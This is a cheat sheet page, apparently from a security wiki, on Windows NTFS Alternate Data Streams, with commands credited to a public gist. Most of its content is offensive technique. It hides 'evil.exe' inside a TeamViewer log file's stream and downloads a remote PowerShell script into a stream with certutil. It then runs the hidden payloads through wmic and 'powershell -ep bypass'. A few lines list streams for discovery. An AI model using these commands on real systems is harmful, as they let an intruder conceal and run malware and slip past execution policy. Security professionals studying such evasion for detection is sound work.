 ## Alternate Data Streams CheatSheet (ADS/Alternate Data Stream)

**Examples taken from** [**https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f**](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)**. There are a lot more in there!**

```bash
## Selected Examples of ADS Operations ##

### Adding Content to ADS ###
# Append executable to a log file as an ADS
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
# Download a script directly into an ADS
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt

### Discovering ADS Content ###
# List files and their ADS
dir /R
# Use Sysinternals tool to list ADS of a file
streams.exe <c:\path\to\file>

### Extracting Content from ADS ###
# Extract an executable stored in an ADS
expand c:\ads\file.txt:test.exe c:\temp\evil.exe

### Executing ADS Content ###
# Execute an executable stored in an ADS using WMIC
wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'
# Execute a script stored in an ADS using PowerShell
powershell -ep bypass - < c:\temp:ttt
```

{% hint style="success" %}